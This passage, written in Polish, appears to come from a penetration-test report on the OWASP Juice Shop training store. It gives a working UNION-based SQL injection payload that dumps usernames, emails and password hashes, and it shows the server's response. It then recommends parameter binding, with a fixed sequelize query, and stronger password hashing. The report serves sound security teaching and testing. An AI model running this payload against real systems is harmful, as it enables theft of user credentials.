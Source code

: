 \begin{itemize}
    Odpowiedź zwraca kod SQL tworzący tabelę, z którego łatwo wywnioskować jakie kolumny zawiera

    \item Pobranie danych użytkowników
    
    \begin{itemize}
        \item Parametr/zapytanie
        
        \begin{lstlisting}
?q=apple')) union select 1,2,3,4,5,6,group_concat(username),group_concat(email),group_concat(password) from users;--
        \end{lstlisting}

        \item Odpowiedź serwera
        
        \begin{lstlisting}
[('', 'admin@juice-sh.op', 
'240be518fabd2724ddb6f04eeb1da5967448d7e831c08c8fa822809f74c720a9'),
('', 'jim@juice-sh.op',
'c534541702f7e186e3520e8e929c1b9c19b3afc7be14adc5491a64a7563e963c'),...
        \end{lstlisting}    
    \end{itemize}

    Proste wykonanie ataku z wykorzystaniem wydobytej wcześniej wiedzy pozwala na pobranie hashy haseł użytkowników w celu wykonania szybszych, ukrytych ataków lokalnych
    

\end{itemize}

\subsubsection{Skutki}
Wykorzystanie podatności pozwala na \textbf{pobranie hashy haseł wszystkich użytkowników sklepu}.

\subsubsection{Zalecenia}

Rozwiązaniem tego problemu jest upewnienie się, że przy każdym zapytaniu do bazy danych jego treść jest odpowiednio sanityzowana. Jednym z najlepszych podejść jest tutaj wykorzystanie mechanizmu parameter binding. Warto też skorzystać z biblioteki, w której zapytanie z sanityzacją jest tą domyślną opcją, którą trzeba ręcznie wyłączyć w razie potrzeby.

Przykład naprawy w pliku login.ts
\begin{lstlisting}
models.sequelize.query(`SELECT * FROM Users WHERE email = $mail AND password = $pass AND deletedAt IS NULL`, { 
    model: UserModel, 
    bind: {mail: req.body.email, pass: security.hash(req.body.password)},
    plain: true 
    })
.then((authenticatedUser) => [...]
\end{lstlisting}
Przedstawiony kod zawiera już poprawę - parametr bind. Przed nią zapytanie było składane jako zwykła suma ciągów tekstowych.

W tym miejscu warto również zarekomendować zmianę algorytmu hashowania na nowocześniejsze i bezpieczniejsze Argon2, czy Bcrypt. Dodatkowe użycie soli i ewentualnie pieprzu dodatkowo zminimalizowało by skutki udanego ataku jak ten przedstawiony w tej sekcji.

